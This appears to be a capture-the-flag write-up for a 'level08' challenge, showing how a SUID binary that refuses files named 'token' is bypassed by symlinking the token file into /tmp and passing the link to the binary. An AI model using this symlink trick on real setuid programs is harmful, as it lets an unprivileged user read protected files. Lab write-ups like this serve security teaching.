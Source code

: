Start by listing the files in the current directory:
```bash
ls
```
Output:
```bash
level08 token
```

The file is an ELF binary. Checking its permissions:
```bash
ls -la level08
```
Output:
```bash
rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
```
The **SUID bit (`s`) is set**, meaning it runs with `flag08` privileges.

Using `ghidra`, we analyze the binary and find that it contains a check that **prevents access*** to files whose names contain the **string token**. The program attempts to block any file with the word "token" in its name, but we can bypass this restriction by using a **symbolic link**.

```bash
ln -s /home/user/level08/token /tmp/bypass
```

We then execute the level08 binary, passing the symlink (`/tmp/bypass`) as the argument:
```bash
./level08 /tmp/bypass
```

And get the next flag !
